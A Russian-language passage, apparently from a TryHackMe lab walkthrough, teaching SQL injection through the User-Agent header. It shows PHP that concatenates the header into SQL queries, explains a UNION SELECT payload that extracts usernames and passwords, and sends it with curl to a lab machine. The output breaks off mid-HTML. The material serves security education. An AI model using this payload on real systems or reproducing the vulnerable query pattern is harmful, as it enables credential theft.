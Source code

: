 Вот код на стороне сервера, который вставляет логи.
```commandline
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$insert_sql = "INSERT INTO logs (user_Agent) VALUES ('$userAgent')";
if ($conn->query($insert_sql) === TRUE) {
    echo "<p class='text-green-500'>New logs inserted successfully</p>";
} else {
    echo "<p class='text-red-500'>Error: " . $conn->error . " (Error Code: " . $conn->errno . ")</p>";
}

$sql = "SELECT * FROM logs WHERE user_Agent = '$userAgent'";
..
... 

```
Значение User-Agent вставляется в таблицу журналов с помощью оператора INSERT SQL . Если вставка прошла успешно, 
отображается сообщение об успехе. Если во время вставки произошла ошибка, отображается сообщение об ошибке с 
подробностями.

панель управления для просмотра журналов

Подготовка полезной нагрузки

Мы подготовим и внедрим полезную нагрузку SQL в заголовок User-Agent, чтобы продемонстрировать, как можно 
эксплуатировать SQL-инъекцию через заголовки HTTP. Наша целевая полезная нагрузка будет  ' UNION SELECT username, 
password FROM user; #.  Эта полезная нагрузка предназначена для:

Закройте существующий строковый литерал : начальная одинарная кавычка ( ') используется для закрытия существующего строкового литерала в запросе SQL .
Внедрение оператора UNION SELECT : UNION SELECT username, password FROM user;часть полезной нагрузки используется для извлечения столбцов имени пользователя и пароля из таблицы пользователей.
Закомментировать остальную часть запроса : этот #символ используется для комментирования оставшейся части SQL- запроса, гарантируя, что любой последующий код SQL будет проигнорирован.
Нам нужно отправить эту полезную нагрузку как часть заголовка User-Agent в нашем HTTP- запросе для внедрения этой полезной нагрузки, что можно сделать с помощью таких инструментов, как Burp Suite или cURL . Мы будем использовать инструмент командной строки curl для отправки HTTP-запроса с пользовательским заголовком User-Agent.  Откройте терминал и получите доступ к интерфейсу командной строки.  Используйте следующую команду для отправки запроса с пользовательским User-Agentзаголовком:

Пример терминала
```commandline
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://MACHINE_IP/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

```
